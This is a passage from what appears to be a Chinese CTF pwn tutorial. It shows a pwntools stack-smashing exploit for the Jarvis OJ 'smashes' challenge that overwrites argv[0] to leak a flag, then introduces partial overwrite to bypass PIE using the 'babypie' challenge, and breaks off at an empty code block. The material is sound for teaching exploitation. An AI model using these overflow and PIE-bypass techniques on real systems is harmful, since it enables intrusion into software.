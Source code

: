 可以看出rsp的值为0x7fffffffda40，那么相对偏移为

```python
>>> 0x00007fffffffdc58-0x7fffffffda40
536
>>> hex(536)
'0x218'
```

#### 利用程序

我们构造利用程序如下

```python
from pwn import *
context.log_level = 'debug'
smash = ELF('./smashes')
if args['REMOTE']:
    sh = remote('pwn.jarvisoj.com', 9877)
else:
    sh = process('./smashes')
argv_addr = 0x00007fffffffdc58
name_addr = 0x7fffffffda40
flag_addr = 0x600D20
another_flag_addr = 0x400d20
payload = 'a' * (argv_addr - name_addr) + p64(another_flag_addr)
sh.recvuntil('name? ')
sh.sendline(payload)
sh.recvuntil('flag: ')
sh.sendline('bb')
data = sh.recv()
sh.interactive()
```

这里我们直接就得到了 flag，没有出现网上说的得不到 flag 的情况。

### 题目
2018网鼎杯 - guess

## 栈上的 partial overwrite
partial overwrite 这种技巧在很多地方都适用, 这里先以栈上的 partial overwrite 为例来介绍这种思想

我们知道, 在程序开启了 PIE 保护时 (PIE enabled) 高位的地址会发生随机化, 但低位的偏移是始终固定的, 也就是说如果我们能更改低位的偏移, 就可以在一定程度上控制程序的执行流, 绕过 PIE 保护

### 例子
以安恒杯 2018 年 7 月月赛的 babypie 为例分析这一种利用技巧, 题目的 binary 放在了 [ctf-challenge](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/partial_overwrite) 中
#### 确定保护
```bash
babypie: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=77a11dbd367716f44ca03a81e8253e14b6758ac3, stripped
[*] '/home/m4x/pwn_repo/LinkCTF_2018.7_babypie/babypie'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
64 位动态链接的文件, 开启了 PIE 保护和栈溢出保护
#### 分析程序
IDA 中看一下, 很容易就能发现漏洞点, 两处输入都有很明显的栈溢出漏洞, 需要注意的是在输入之前, 程序对栈空间进行了清零, 这样我们就无法通过打印栈上信息来 leak binary 或者 libc 的基址了
```C
```